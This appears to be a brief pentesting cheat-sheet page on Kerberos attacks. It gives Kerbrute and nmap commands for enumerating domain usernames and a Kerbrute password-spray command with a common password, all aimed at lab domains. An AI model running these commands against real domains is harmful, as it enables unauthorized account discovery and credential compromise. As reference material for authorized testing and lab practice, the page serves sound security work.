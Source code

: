 ![Kerberos Diagram](../../assets/Kerb_auth.png)

## Tools
### Kerbrute
https://github.com/ropnop/kerbrute

#### User Enumeration
```bash
./kerbrute userenum -d lab.ropnop.com usernames.txt

sudo nmap -p 88 --script=krb5-enum-users --script-args="krb5-enum-users.realm='sevenkingdoms.local',userdb=possible_usernames.txt" kingslanding
```
#### Password Spray
```
./kerbrute passwordspray -d lab.ropnop.com domain_users.txt Password123
```